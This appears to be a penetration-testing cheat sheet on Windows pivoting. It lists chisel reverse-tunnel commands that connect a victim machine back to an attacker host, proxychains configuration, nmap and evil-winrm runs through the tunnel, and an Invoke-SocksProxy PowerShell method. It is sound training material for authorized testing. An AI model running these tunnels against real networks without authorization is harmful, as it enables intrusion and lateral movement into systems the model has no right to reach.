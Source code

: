 # Windows pivoting

### Chisel for Windows
https://github.com/jpillora/chisel/releases

```
Victims Box: .\chisel.exe client <attackersIP>:8011 R:1234:127.0.0.1:1234
Attackers Box: .\chisel.exe server -p 8011 --reverse
```

### ippsec demonstration Proxychains
https://www.youtube.com/watch?v=Yp4oxoQIBAM&t=5446  

```
Configuring Proxychains:

vim /etc/proxychains.conf

comment proxy_dns
uncomment quiet_mode
remove any entries within proxy list
add socks5 127.0.0.1 1080

Setting up chisel:

attackers box: 
./chisel server -p 8000 --reverse

victims box:
.\chisel.exe client <attackersIP>:8000 R:8001:127.0.0.1:1337

victims box:
.\chisel.exe server -p 1337 --socks5

attackers box:
./chisel client 127.0.0.1:8001 socks

Testing proxychains command:

proxychains nmap -sT <TargetIP> -p445 -Pn
proxychains evil-winrm.rb -i <IP> -u user -p pass
```

### Standard Proxychains:  

https://medium.com/@vegardw/reverse-socks-proxy-using-chisel-the-easy-way-48a78df92f29  

```
./chisel server -p 8080 --reverse

.\chisel.exe client <IP>:8080 R:socks

Edit Proxychains config file:
/etc/proxychains.conf

Add the following:
socks5 127.0.0.1 1080
```

### Using powershell to SOCKS Proxy (Thanks to @sinfulz for recommending this)
```
From Kali: Edit /etc/proxychains.conf, add "socks5 9080" at the bottom.
From Victim Box: Import-Module .\Invoke-SocksProxy.psm1
From Victim Box: Invoke-SocksProxy -bindPort 9080
From Kali: proxychains nmap -sT <target_IP> -Pn
```
